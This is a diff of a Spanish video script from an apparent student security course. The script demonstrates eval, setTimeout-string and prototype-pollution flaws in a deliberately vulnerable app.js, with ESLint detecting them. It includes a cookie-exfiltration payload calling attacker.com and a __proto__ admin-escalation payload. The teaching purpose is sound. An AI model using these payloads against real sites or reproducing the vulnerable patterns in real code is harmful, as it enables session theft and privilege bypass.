

Before and after one commit to CesarGarcia08/parcial_ssf, a Markdown page: recursos/GUION_VIDEO.md, the part around one of its changes. Shown at 85% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/recursos/GUION_VIDEO.md
+++ b/recursos/GUION_VIDEO.md
@@ -89,75 +149,83 @@ notesList.innerHTML = html; // html contiene datos del usuario sin sanitizar
 
-**[ABRIR `app.js` línea 381 y 262]**
+**[VOLVER A VS CODE — app.js línea 381]**
 
-```javascript
-// ❌ VULNERABLE — eval() con input del usuario
-window.evaluateNoteExpression = function(expression) {
-  return eval(expression); // ejecuta código arbitrario
-};
+**[NAVEGAR con Ctrl+G → 381]**
 
-// ❌ VULNERABLE — setTimeout con string (= eval)
-const searchValue = currentSearch;
-setTimeout(`console.log('Búsqueda: ${searchValue}');`, 300);
-```
+> "Tercera vulnerabilidad: `eval()`. Esta función acá — `evaluateNoteExpression` — recibe un string del usuario y lo pasa directo a `eval()`. Eso significa que ejecuta como código JavaScript lo que sea que llegue."
 
-**[DEMOSTRAR en consola del navegador]**
+**[CAMBIAR A CHROME — abrir DevTools Console]**
+
+> "Lo demuestro en la consola del navegador."
+
+**[ESCRIBIR en consola]**
 
 ```javascript
 evaluateNoteExpression("document.cookie")
-evaluateNoteExpression("fetch('http://attacker.com?d='+document.cookie)")
 ```
 
-> "La segunda es peor: el valor del buscador se interpola en el string — si el usuario escribe código, se ejecuta. Ambas son **OWASP A03:2021**. ESLint detectó las dos."
+**[MOSTRAR la respuesta — imprime la cookie]**
+
+> "Me devolvió mi cookie de sesión. Podría mandar eso a un servidor externo así:"
+
+```javascript
+evaluateNoteExpression("fetch('https://attacker.com?d='+document.cookie)")
+```
+
+> "Eso es exfiltración de sesión. Ahora la cuarta — `setTimeout` con string."
+
+**[VOLVER A VS CODE — línea 350]**
+
+**[SELECCIONAR las líneas 349-353]**
+
+```javascript
+const searchValue = currentSearch;
+setTimeout(`
+  console.log('Búsqueda: ${searchValue}');
+`, 300);
+```
+
+> "Cuando `setTimeout` recibe un string en vez de una función, lo evalúa igual que `eval()`. Y peor aún: el valor del buscador se interpola directamente en ese string. ESLint detectó ambas con `security/detect-eval-with-expression` y `custom/no-settimeout-string`."
 
 ---
 
-## [5:30 – 6:30] Vulnerabilidad 5 — Prototype Pollution (`app.js:402`)
+## [6:00 – 6:50] Vulnerabilidad 5 — Prototype Pollution
 
-**[ABRIR `app.js` línea 402]**
+**[VS CODE — app.js línea 402]**
 
-```javascript
-// ❌ VULNERABLE — Object.assign sin sanitizar keys
-window.updateUserConfig = function(newConfig) {
-  const updatedConfig = Object.assign(currentConfig, newConfig);
-};
-```
+**[NAVEGAR con Ctrl+G → 402]**
 
-**[DEMOSTRAR en consola]**
+> "Última vulnerabilidad: Prototype Pollution. Acá la función `updateUserConfig` hace un `Object.assign` pasando directamente el objeto que viene del usuario sin revisar las keys."
+
+**[CAMBIAR A CHROME — DevTools Console]**
+
+**[ESCRIBIR en consola]**
 
 ```javascript
 updateUserConfig(JSON.parse('{"__proto__": {"admin": true}}'));
-console.log({}.admin); // true — prototipo contaminado
+console.log({}.admin);
 ```
 
-> "Todos los objetos ahora tienen `admin: true`. Permite bypassear validaciones de rol. ESLint lo detectó con `custom/no-prototype-pollution`."
+**[MOSTRAR que imprime `true`]**
+
+> "El prototipo de Object fue contaminado. Ahora cualquier objeto nuevo en la app tiene la propiedad `admin: true`. Eso permite bypassear validaciones de rol que digan `if (user.admin)`. ESLint lo detectó con `custom/no-prototype-pollution`."
 
 ---
 
-## [6:30 – 7:30] Ejecutar ESLint — resumen total
+## [6:50 – 7:30] Ejecutar ESLint — cierre del video
 
-**[TERMINAL]**
+**[VOLVER A TERMINAL en VS Code]**
+
+> "Para cerrar, vemos el reporte completo de ESLint."
+
+**[ESCRIBIR]**
 
 ```powershell
 npm run lint
 ```
 
-**[MOSTRAR salida]**
+**[ESPERAR que corra — mostrar la salida completa en pantalla]**
 
-```
-app.js:175   error  XSS: innerHTML                    custom/no-innerhtml
-app.js:206   error  XSS: innerHTML                    custom/no-innerhtml
-app.js:262   error  setTimeout with string            custom/no-settimeout-string
-app.js:308   error  Prototype Pollution               custom/no-prototype-pollution
-app.js:350   error  setTimeout with string            custom/no-settimeout-string
-app.js:381   error  eval with expression              security/detect-eval-with-expression
-app.js:391   error  Prototype Pollution               custom/no-prototype-pollution
-app.js:402   error  Prototype Pollution               custom/no-prototype-pollution
-app.js:414   error  eval with expression              security/detect-eval-with-expression
-
-✖ 17 problems (9 errors, 8 warnings)
-```
-
-> "9 errores, todos de seguridad. SQL Injection y Hardcoded Secret no aparecen — eso lo analizamos en el siguiente video."
+> "17 problemas — 9 errores y 8 warnings. Los 9 errores son todas vulnerabilidades de seguridad que detectó ESLint con las reglas custom. Pero noten que SQL Injection y el secreto hardcodeado no aparecen aquí — ESLint no los ve. Eso lo analizamos a fondo en el Video 2b junto con las correcciones."
 
 ---
 ---
````
Also changed, not shown: other parts of recursos/GUION_VIDEO.md (+94 -34 lines).
